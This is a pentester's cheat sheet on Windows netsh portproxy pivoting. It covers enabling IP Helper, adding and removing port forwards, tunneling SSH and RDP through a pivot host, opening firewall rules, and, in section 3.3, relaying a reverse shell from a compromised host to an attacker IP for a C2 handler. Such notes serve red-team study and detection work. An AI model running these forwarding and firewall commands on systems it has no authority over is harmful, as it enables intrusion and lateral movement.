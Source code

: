 # Living off the Land

## 01 - Conditions

Both services of `IP Helper` and **IPv6 support** must be enabled. To ensure they're enabled here are the following commands:

```
C:\> reg add "HKLM\SYSTEM\CurrentControlSet\services\iphlpsvc" /v Start /t REG_DWORD /d 2 /f

C:\> sc.exe [\\<IP>] config iphlpsvc start= auto

C:\> net start "IP Helper"

C:\> sc.exe [\\<IP>] start iphlpsvc
```

## 02 - Usage

Note: `netsh interface portproxy` must be executed with administrative rights

```
C:\> netsh interface portproxy add <v4tov4 | v4tov6 | v6tov4 | v6tov6> listenport=<LPORT> listenaddress=<LHOST> connectport=<FPORT> connectaddress=<FHOST>
```

Display port forwarding rules.

```
C:\> netsh interface portproxy show <all | v4tov4 | v4tov6 | v6tov4 | v6tov6>
```

Delete port forwarding rule.

```
C:\> netsh interface portproxy delete v4tov4 listenaddress=<LHOST> listenport=<LPORT>
```

Flush port forwarding rules.

```
C:\> netsh interface portproxy reset [ipv4 | ipv6]
```

## 03 - Scenarios

### 3.1 - Bind SSH Port

Grab the SSH port number

```
C:\> netsh interface portproxy add v4tov4 listenport=4242 listenaddress=<pivot_IP | 0.0.0.0> connectport=22 connectaddress=192.168.0.101
```

In command prompt

```
C:\> netstat -anp TCP | find "4242"

C:\> tasklist | findstr :4242
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 4242
```

Add a firewall rule

```
C:\> netsh advfirewall firewall add rule name="Port Forward SSH" protocol=tcp dir=in localip=<pivot_IP> localport=4242 action=allow
```

Remotely authenticate SSH server

```
$ ssh <username>@<pivot_IP> -p 4242
```

### 3.2 - Bind RDP Port

Grab the RDP port number

```
C:\> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=<pivot_IP | 0.0.0.0> connectport=3389 connectaddress=<RDP_IP>
```

In command prompt

```
C:\> netstat -na | findstr "8080"

C:\> tasklist | findstr :8080
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8080
```

Add a firewall rule

```
C:\> netsh advfirewall firewall add rule name="Port Forward RDP" protocol=tcp dir=in localip=<pivot_IP> localport=8080 action=allow
```

Remotely authenticate RDP server

```
$ xfreerdp /v:<pivot_IP>:8080 /u:<username> /p:<password> /sec:<rdp | tls | nla>
```

### 3.3 - Remote Port Forwarding Reverse Shells

Port forward the reverse shell handler.

```
C:\> netsh interface portproxy add v4tov4 listenport=8443 listenaddress=0.0.0.0 connectport=8443 connectaddress=<attacker_IP>
```

Check for 8443 listening port in command prompt.

```
C:\> netstat -na | findstr "8443"

C:\> tasklist | findstr :8443
```

Check for 8443 listening port in powershell.

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8443
```

Add a firewall rule

```
C:\> netsh advfirewall firewall add rule name="Port Forward Implant" protocol=tcp dir=in localip=<compromised_pivot_IP> localport=8443 action=allow
```

Then you can launch a reverse shell handler with any C2 frameworks. Just specify the compromised system's IP and PORT.

---
## References

- [Netsh Interface PortProxy](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-interface-portproxy)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [PayloadsAllTheThings Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [How to Redirect a Port Using Netsh Interface PortProxy Command in Windows](https://www.computertechblog.com/how-to-redirect-a-port-using-netsh-interface-portproxy-command-in-windows/)

- [Configure Port Forwarding on Windows Using Netsh](https://bobcares.com/blog/configure-port-forwarding-on-windows-using-netsh/)

- [Windows Port Forward](https://embracethered.com/blog/posts/2020/windows-port-forward/)

- [Shell is coming: Metasploit Chain of Proxies](https://www.shelliscoming.com/2013/08/metasploit-chain-of-proxies-with.html)

### Similar to Linux

- [[Rinetd]]

### Scenarios

- [Metasploit: Portproxy (tunneling meterpreter session inside another meterpreter session) + socat + chisel](https://pswalia2u.medium.com/metasploit-portproxy-tunneling-meterpreter-session-inside-another-meterpreter-session-9a99bcf959ac)

- [Metasploit: Portproxy (tunneling meterpreter session inside another meterpreter session) + socat + chisel (web archived)](https://web.archive.org/web/20221121115128/https://pswalia2u.medium.com/metasploit-portproxy-tunneling-meterpreter-session-inside-another-meterpreter-session-9a99bcf959ac)

- [CyberSec Wikimandine: Port Forwarding with Windows Netsh](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/port-forwarding-with-windows-netsh)

### Detections

- [DFIR Notes: PortProxy Detection](https://www.dfirnotes.net/portproxy_detection/)